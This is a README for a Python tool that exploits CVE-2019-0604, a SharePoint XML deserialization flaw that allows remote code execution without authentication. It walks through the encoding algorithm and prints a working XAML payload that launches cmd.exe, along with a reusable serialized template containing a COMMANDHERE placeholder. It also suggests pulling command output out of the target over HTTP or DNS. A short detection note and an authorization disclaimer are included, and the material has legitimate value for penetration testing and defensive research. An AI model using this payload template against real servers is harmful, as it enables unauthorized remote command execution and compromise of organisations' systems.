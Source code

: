 
# Desharialize
Desharialize: Easy mode to Exploit CVE-2019-0604 (Sharepoint XML Deserialization Unauthenticated RCE)

![1](https://raw.githubusercontent.com/Voulnet/desharialize/master/desharializelogo.png)

## What is it?

While there have been public POCs for CVE-2019-0604, I have noticed that those POCs are not clear, extensible or flexible. Some of them only have on hardcoded (and serialized/encoded) payloads, some of them require running custom .NET code before every payload, and some would run the payload on your machine first during the serialization process. I have reversed and analyzed the simple serialization/encoding algorithm used by Sharepoint, and I have created a raw template that can be used to serialize any custom payload on the fly without having to run .NET code for each payload, or run payloads that you can't read.

Find below usage examples for Desharialize as well as a brief explanation of the serialization process.

## Assumptions

To better utilize this tool in pentesting Sharepoint:
- It is assumed that you know what is the Sharepoint CVE-2019-0604
- It is assumed that you have found a vulnerable (Unpatched) Sharepoint server.
- It is assumed that you have found a vulnerable endpoint on that Sharepoint server (e.g. example.com/_layouts/15/Picker.aspx)


## Prerequisites

- Python 3.
- The requirements listed in the requirements.txt file


## Installing

pip3 install -r requirements.txt


Better to create a virtualenv environment for the tool. Please note that using sudo with pip is not recommended.


## Author

* **Mohammed Aldoub**, also known as **Voulnet**, find me on [Twitter](https://www.twitter.com/Voulnet)

## Main Features

- Run custom serialized payloads on targets (Make sure you have authorization from system owners!).
- Launch the payload on any vulnerable Sharepoint version without having to look for compatible Assembly names.
- No need to play musical chairs with dynamically changing VIEWSTATE and EVENTVALIDATION values, Desharialize scrapes them from the target automatically.
- Make pentesting Sharepoint fun again.
- This tool is aimed at testing Picker.aspx endpoints in particular. Not tested at other endpoints.
- This tool runs commands through the target's command shell using Sharepoint privileges, but no way to read output directly.
- To read output, another channel is needed: Sending result through HTTP, DNS or other options.
- Load commands from a file: This means no need for annoying, pesky escaping and encoding of values to paste stuff into the shell.
- Burp Collaborator can help!

## Contributing

PRs are welcome!


## Testing

Installing and running an older version of Sharepoint to test this tool is a very annoying and cumbersome process. Installing and configuring Sharepoint was actually the only difficult thing in the process of developing this tool. To spare you sweat and blood, you may find these resources helpful, they contain a VM with Sharepoint pre-installed. You might need to fix up some licenses issues such as rearming Windows license, configuring a Developer license for MSSQL, and so on. The links are:
[Sharepoint 2016 Ready made VM](https://gauravmahajan.net/2017/10/06/sharepoint-server-2016-virtual-machine-download/) and [Sharepoint 2013 Ready made VM](https://gauravmahajan.net/2014/08/17/sharepoint-server-2013-sp1-virtual-machine-download/)

## Brief Explanation of the serialization process

In my analysis of this vulnerability, I noticed that the vulnerability has been explained in depth by the authors of the awesome links you will find in the References section below. I will attempt to explain the serialization process, because this is what allowed me to create a dynamic payload you can change on the fly without calling .NET code every time.

The serialized string is a XamlReader ExpandedWrapper which contains our payload in its XML format, An example taken from [this POC](https://github.com/linhlhq/CVE-2019-0604)  is:
```XML
<ResourceDictionary
xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
xmlns:System="clr-namespace:System;assembly=mscorlib"
xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
	<ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
		<ObjectDataProvider.MethodParameters>
			<System:String>cmd.exe</System:String>
			<System:String>/c calc</System:String>
		</ObjectDataProvider.MethodParameters>
	</ObjectDataProvider>
</ResourceDictionary>
```

To serialize it, .NET calls a function called Microsoft.SharePoint.BusinessData.Infrastructure.EntityInstanceIdEncoder.EncodeEntityInstanceId, which takes this string object and performs some operations resulting finally in the serialized payload which looks like "__bp123435009700370047005600d60...etc"
By decompiling this function and debugging its code flow, we can see the following:

![1](https://raw.githubusercontent.com/Voulnet/desharialize/master/desharialize_screenshot1.png)

Here the function adds __ to the start of the string, then checks the number of objects sent to be serialized, here it's 1, so it adds 1 to 97 to convert the result into ascii (b ascii is 98 decimal), so the string becomes __b

![2](https://raw.githubusercontent.com/Voulnet/desharialize/master/desharialize_screenshot2.png)

After that, the code loops on the type of the element being serialized, it's currently of type object, so it looks up a table of types and their values from an array called typeHash.

![2](https://raw.githubusercontent.com/Voulnet/desharialize/master/desharialize_screenshot3.png)

When we decompile this array, we will find that the object type is the type #16, which has an index of 15 (starting from zero!), so the code adds the value of 16 to 97 resulting in 112, which is p in decimal, now the serialized string becomes __bp

![3](https://raw.githubusercontent.com/Voulnet/desharialize/master/desharialize_screenshot4.png)

Next, we check the type of the object being sent to be serialized, which is of type object, so we enter this if statement, where it takes our input, serialized it using the XmlSerializer class of .NET, then appends in front of it the the XamlReader Assembly Qualified name + ":" plus the XML serialized payload, so it looks like this: 

```xml
System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089:<?xml version="1.0" encoding="utf-16"?>
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <ProjectedProperty0>
    <ObjectInstance xsi:type="XamlReader" />
    <MethodName>Parse</MethodName>
    <MethodParameters>
      <anyType xsi:type="xsd:string">&lt;ResourceDictionary xmlns='http://schemas.microsoft.com/winfx/2006/xaml/presentation' xmlns:x='http://schemas.microsoft.com/winfx/2006/xaml' xmlns:System='clr-namespace:System;assembly=mscorlib' xmlns:Diag='clr-namespace:System.Diagnostics;assembly=system'&gt;&lt;ObjectDataProvider x:Key='y' ObjectType='{x:Type Diag:Process}' MethodName='Start'&gt;&lt;ObjectDataProvider.MethodParameters&gt;&lt;System:String&gt;cmd&lt;/System:String&gt;&lt;System:String&gt;/c COMMANDHERE &lt;/System:String&gt;&lt;/ObjectDataProvider.MethodParameters&gt;&lt;/ObjectDataProvider&gt;&lt;/ResourceDictionary&gt; </anyType>
    </MethodParameters>
  </ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>
```

After that, this serialized string, whose encoding is utf-16 is sent to be Hex-encoded, and then reversed, and also the length of this serialized string (after encoding, hexing and reversing) is calculated in hex (the length, that is - also encoded, hexed and reversed) and then put in front of the string so we have a string for example like "__bp82c135009700370047005600d60...etc", which actually means length of 82c1, so reversing that is 1c28 in hex, meaning 7208 in decimal. After that we have 35009700370047005600, so let's reverse that into 00530079007300740065, and decoding this from utf-16 and hex, we have 0x5379737465 which in ascii is System (System...etc etc)

So the way this tool works is that it takes a premade serialized string, adds a known serialized-reversed-hexed string to it, takes your command input, serializes-hexes-encodes it and then puts it instead of the premade serialized placeholder, and voila! You now can put your own dynamic serialized string without having to run dotnet code or be restricted to the public payloads available online.

## TODO:

- More testing against a wider range of versions and service packs for Sharepoint.
- Integrate fully with Metasploit.

## Detection

Check your web server logs for request containing "71e9bce111e9429c"
For more awesome detection steps, Snort and Sigma rules, please visit: [Mansour Alsaeedi Blog - adraft.page](https://adraft.page/index.php/2019/09/14/cve-2019-0604-sharepoint-rce-forensics-analysis-and-detection-methods/)

## References and further info

[Mansour Alsaeedi Blog - adraft.page](https://adraft.page/index.php/2019/09/14/cve-2019-0604-sharepoint-rce-forensics-analysis-and-detection-methods/)

[ZDI](https://www.zerodayinitiative.com/blog/2019/3/13/cve-2019-0604-details-of-a-microsoft-sharepoint-rce-vulnerability)

[k8gege POC](https://github.com/k8gege/CVE-2019-0604)

[.NET POC to create serialized payload](https://github.com/linhlhq/CVE-2019-0604) 


## Disclaimer

By using this tool, you absolve the tool author from any effect or repercussions resulting, directly or indirectly, from usage of this tool. This tool is provided as is, with no warranty or guarantee. This tool must only be used on legally authorized targets, and by using this tool you hereby declare that you have obtained proper legal permission from the tested targets, and that you fully absolve the tool author from any and all means and results, directly or indirectly, of utilizing this free open source tool. 

## Questions?

- Raise an issue here in Github.
- Contact me on Twitter.
